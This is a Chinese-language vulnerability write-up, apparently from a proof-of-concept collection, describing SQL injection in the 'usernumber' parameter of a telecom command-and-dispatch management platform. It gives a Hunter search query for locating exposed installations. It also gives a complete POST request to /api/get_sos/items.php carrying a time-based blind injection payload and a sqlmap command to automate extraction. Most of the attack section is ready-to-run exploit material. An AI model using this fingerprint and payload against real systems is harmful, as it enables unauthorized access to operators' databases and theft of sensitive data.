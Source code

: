 # 指挥调度平台usernumber存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台usernumber存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/xEaSzFspIi7a8WRB/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-654779.png)

# 四、漏洞复现
```plain
POST /api/get_sos/items.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4c1e6025b94bac25c4ec63e4affec7cd; authcode=3hqs
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

sign=7a6f931dde8e8aafbbfa4d2bcab475e6&timestamp=1686020152221&usernumber=1' AND (SELECT 5464 FROM (SELECT(SLEEP(5)))FZxX) AND 'khLM'='khLM
```

![1701143980161-27f11348-a6a0-42f5-9252-b3d4379e63a7.png](./img/xEaSzFspIi7a8WRB/1701143980161-27f11348-a6a0-42f5-9252-b3d4379e63a7-804570.png)

sqlmap

```plain
sqlmap -r 2.txt --batch -p usernumber
```

![1701143998178-09bee0f6-0d3e-4ee7-a4dd-320c79bc10b4.png](./img/xEaSzFspIi7a8WRB/1701143998178-09bee0f6-0d3e-4ee7-a4dd-320c79bc10b4-121402.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rnocaiwi1rqd0dx5>